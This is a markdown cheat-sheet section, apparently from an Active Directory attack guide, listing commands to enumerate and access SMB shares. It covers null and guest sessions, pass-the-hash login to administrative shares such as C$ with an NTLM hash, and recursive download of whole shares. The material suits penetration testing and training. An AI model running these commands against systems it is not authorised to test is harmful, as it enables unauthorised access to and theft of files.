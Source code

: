 # Domain Shares

Some shares can be accessible without authentication, explore them to find some juicy files

[smbmap](https://github.com/ShawnDEvans/smbmap)

```
smbmap -H 10.10.10.10                # null session
smbmap -H 10.10.10.10 -R             # recursive listing
smbmap -H 10.10.10.10 -u invaliduser # guest smb session
smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
```

[pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

```
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
ls  # list files
cd  # move inside a folder
get # download files
put # replace a file
```

[smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)

```
smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Replication     Disk      
        SYSVOL          Disk      Logon server share
        Users           Disk
use Sharename # select a Sharename
cd Folder     # move inside a folder
ls            # list files
```

[smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#)

```
smbclient -U username //10.0.0.1/SYSVOL
smbclient //10.0.0.1/Share

# Download a folder recursively
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> lcd '/path/to/go/'
smb: \> mget *
```
